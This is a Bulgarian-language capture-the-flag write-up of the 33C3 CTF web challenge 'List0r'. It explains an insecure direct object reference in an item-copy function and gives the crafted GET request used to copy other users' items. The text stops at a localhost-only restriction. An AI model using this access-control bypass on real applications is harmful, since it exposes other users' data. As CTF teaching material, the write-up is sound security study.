 # **List0r** - 400 точки
> **33c3ctf/web**

![](files/header.png)


отдалечен уеб сървър: http://78.46.224.80/

Първата уязвима функция която открих се намира във функцията за копиране на item от list-овете който можем да създаваме. 

![](files/copy_function.png)

Уязвимоста ни позволява да правим хоризонтални ескалаций в правата и да копираме чужд item в наш list. 

```
GET /?target=<int(4453)-ID на нашия list>&page=item&action=copy&item=<int-номер на item който искаме да копираме в нашия лист> HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Направих бързо енумериране(и прехвърляне) на 1вите създаде items и ето че този с номер 5 ни издава нещо интересно:

![](files/item_hint.png)

Оказва се обаче че файлът не може да бъде достъпен директно с GET заявка към сървъра. 

Файлът трябва да бъде достъпен през localhost

```
403 - Sorry, but this is only accessible from 127.0.0.1
```



